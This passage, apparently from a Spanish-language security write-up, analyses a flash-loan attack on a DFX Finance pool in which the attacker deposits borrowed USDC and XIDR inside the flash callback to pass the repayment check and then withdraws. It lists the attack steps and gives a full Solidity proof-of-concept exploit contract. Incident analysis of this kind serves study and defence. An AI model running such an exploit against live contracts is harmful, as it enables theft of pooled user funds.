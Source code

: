   Es probable que surja la pregunta de cómo un atacante roba activos con la función `withdraw` en un flash loan. Obviamente, esta es la única parte en la que el atacante puede trabajar. Ahora profundicemos en la función de callback: 
  
  ![imagen](https://user-images.githubusercontent.com/53768199/215330695-1b1fa612-4f01-4c6a-a5be-7324f464ecb1.png)

  Como puedes ver, el atacante llamó a la función `deposit` en el contrato víctima y recibirá los activos numerarios que el pool soporta y acuñará tokens de curvas. Como se mencionó en el gráfico anterior, `USDC` y `XIDR` se envían a la víctima a través de `transferFrom`.
  
  ![imagen](https://user-images.githubusercontent.com/53768199/215330576-d15642f7-5819-4e83-a8c8-1d3a48ad8c6d.png)
  
  En este punto, se sabe que la finalización del flash loan se determina comprobando si los activos de tokens correspondientes en el contrato son mayores o iguales al estado antes de la ejecución del callback del flash loan. Y la función `deposit` hará que esta validación se complete.

 ```solidity
  require(balance0Before.add(fee0) <= balance0After, 'Curve/insufficient-token0-returned');
  require(balance1Before.add(fee1) <= balance1After, 'Curve/insufficient-token1-returned');
  ```

  Debe notarse que el atacante preparó algunos tokens `USDC` y `XIDR` para el mecanismo de comisiones del flash loan antes del ataque. Es por eso que el depósito del atacante es relativamente mayor que la cantidad prestada. Así que la cantidad total para la invocación de `deposit` es la cantidad prestada con el flash loan más la comisión. La validación en la función `flash` puede pasarse con esto.

  Como resultado, el atacante invocó `deposit` en la función de callback, evitó la validación en el flash loan y dejó el registro para el depósito. Después de todas estas operaciones, el atacante retiró los tokens.

  En resumen, el flujo completo del ataque es:
  1. Preparar algunos tokens `USDC` y `XIDR` por adelantado.
  2. Usar `viewDeposit()` para obtener el número de activos para el posterior `deposit()`.
  3. Hacer flash de tokens `USDC` y `XIDR` basándose en el valor de retorno del paso 2.
  4. Invocar la función `deposit()` en el callback del flash loan.
  5. Ya que tenemos un registro de depósito en el paso anterior, ahora retiramos los tokens.
  
  La implementación completa del PoC:  

  ```solidity
  contract EXP {
      uint256 amount;
      function testExploit() public{
        uint[] memory XIDR_USDC = new uint[](2);
        XIDR_USDC[0] = 0;
        XIDR_USDC[1] = 0;
        ( , XIDR_USDC) = dfx.viewDeposit(200_000 * 1e18);
        dfx.flash(address(this), XIDR_USDC[0] * 995 / 1000, XIDR_USDC[1] * 995 / 1000, new bytes(1)); // 5% fee
        dfx.withdraw(amount, block.timestamp + 60);
    }

      function flashCallback(uint256 fee0, uint256 fee1, bytes calldata data) external{
        (amount, ) = dfx.deposit(200_000 * 1e18, block.timestamp + 60);
    }
  }
  ```
